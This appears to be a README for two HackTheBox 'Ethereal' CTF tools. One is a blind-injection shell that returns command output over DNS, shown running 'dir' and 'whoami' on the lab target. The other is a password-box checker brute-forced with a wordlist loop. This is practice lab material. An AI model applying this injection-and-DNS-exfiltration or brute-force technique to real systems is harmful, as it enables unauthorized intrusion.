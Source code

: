 ## Challenge

[Ethereal](https://www.hackthebox.eu/home/machines/profile/157) from Hackthebox.eu

## ethereal_shell.py

### Description

Performs blind injection into webpage, with return comms over DNS. Script uses scapy to listen for and reply to DNS requests generated by the injection.

### Reference

Originally published in blog posts: https://0xdf.gitlab.io/ethereal/3/

### Dependencies

- python scapy
- python cmd

### Usage

```
root@kali:~/hackthebox/ethereal-10.10.10.106# ./ethereal_shell.py
[*] Starting DNS Sniffer on tun0 for target 10.10.10.106.
[*] Logging in and fetching state information.
[+] State information received.
ethereal> dir \
Volume in drive C has no label.
Volume Serial Number is FAD9-1FD5
Directory of c:
07/07/2018 09:57 PM <DIR> Audit
06/30/2018 10:10 PM <DIR> inetpub
06/26/2018 05:51 AM <DIR> Program Files
07/16/2018 08:55 PM <DIR> Program Files (x86)
07/05/2018 09:38 AM <DIR> Users
07/01/2018 09:57 PM <DIR> Windows
0 File(s) 0 bytes
6 Dir(s) 15,403,929,600 bytes free
ethereal> whoami
etherealalan
```

## pbox.bas

### Description

Modified PasswordBox Application which takes a password as the first argument. If the password is good, it prints a message and returns 0. Else, it returns 1.

### Reference

Originally published in blog posts: https://0xdf.gitlab.io/ethereal/2/

### Usage

```
root@kali# fbc -lang deprecated pbox.bas 
root@kali# time for pass in $(cat /usr/share/seclists/Passwords/darkweb2017-top1000.txt); do ./pbox $pass; done
Password Found:             password

real    0m5.808s
user    0m1.593s
sys     0m1.096s
```
